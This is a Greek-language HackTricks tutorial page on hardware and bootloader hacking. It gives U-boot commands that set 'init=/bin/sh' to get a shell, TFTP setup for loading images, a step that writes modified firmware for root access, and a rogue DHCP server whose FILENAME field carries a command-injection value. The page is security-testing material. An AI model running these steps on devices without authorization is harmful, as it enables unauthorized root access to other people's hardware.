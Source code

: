 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Τα παρακάτω βήματα συνιστώνται για την τροποποίηση των ρυθμίσεων εκκίνησης συσκευών και των bootloaders όπως το U-boot:

1. **Πρόσβαση στο Shell του Bootloader**:
- Κατά την εκκίνηση, πατήστε "0", space ή άλλους αναγνωρισμένους "μαγικούς κωδικούς" για να αποκτήσετε πρόσβαση στο shell του bootloader.

2. **Τροποποίηση Boot Arguments**:
- Εκτελέστε τις παρακάτω εντολές για να προσθέσετε '`init=/bin/sh`' στα boot arguments, επιτρέποντας την εκτέλεση μιας εντολής shell:
%%%
#printenv
#setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3 mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 init=/bin/sh
#saveenv
#boot
%%%

3. **Ρύθμιση TFTP Server**:
- Ρυθμίστε έναν TFTP server για να φορτώσετε εικόνες μέσω τοπικού δικτύου:
%%%
#setenv ipaddr 192.168.2.2 #τοπική IP της συσκευής
#setenv serverip 192.168.2.1 #IP του TFTP server
#saveenv
#reset
#ping 192.168.2.1 #έλεγχος πρόσβασης στο δίκτυο
#tftp ${loadaddr} uImage-3.6.35 #loadaddr παίρνει τη διεύθυνση για να φορτώσει το αρχείο και το όνομα του αρχείου στην TFTP server
%%%

4. **Χρήση `ubootwrite.py`**:
- Χρησιμοποιήστε το `ubootwrite.py` για να γράψετε την εικόνα U-boot και να σπρώξετε ένα τροποποιημένο firmware για να αποκτήσετε πρόσβαση root.

5. **Έλεγχος Λειτουργιών Debug**:
- Ελέγξτε αν οι λειτουργίες debug όπως η λεπτομερής καταγραφή, η φόρτωση αυθαίρετων πυρήνων ή η εκκίνηση από μη αξιόπιστες πηγές είναι ενεργοποιημένες.

6. **Προσοχή σε Υλικοτεχνικές Παρεμβολές**:
- Να είστε προσεκτικοί όταν συνδέετε ένα ακίδα στο έδαφος και αλληλεπιδράτε με SPI ή NAND flash chips κατά τη διάρκεια της διαδικασίας εκκίνησης της συσκευής, ιδιαίτερα πριν αποσυμπιεστεί ο πυρήνας. Συμβουλευτείτε το datasheet του NAND flash chip πριν βραχυκυκλώσετε ακίδες.

7. **Ρύθμιση Rogue DHCP Server**:
- Ρυθμίστε έναν rogue DHCP server με κακόβουλες παραμέτρους για να τις καταναλώσει μια συσκευή κατά την εκκίνηση PXE. Χρησιμοποιήστε εργαλεία όπως το DHCP auxiliary server του Metasploit (MSF). Τροποποιήστε την παράμετρο 'FILENAME' με εντολές injection όπως `'a";/bin/sh;#'` για να δοκιμάσετε την επικύρωση εισόδου για τις διαδικασίες εκκίνησης της συσκευής.

**Σημείωση**: Τα βήματα που περιλαμβάνουν φυσική αλληλεπίδραση με τις ακίδες της συσκευής (*σημειωμένα με αστερίσκους) θα πρέπει να προσεγγίζονται με εξαιρετική προσοχή για να αποφευχθεί η ζημιά στη συσκευή.


## References
* [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)


{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
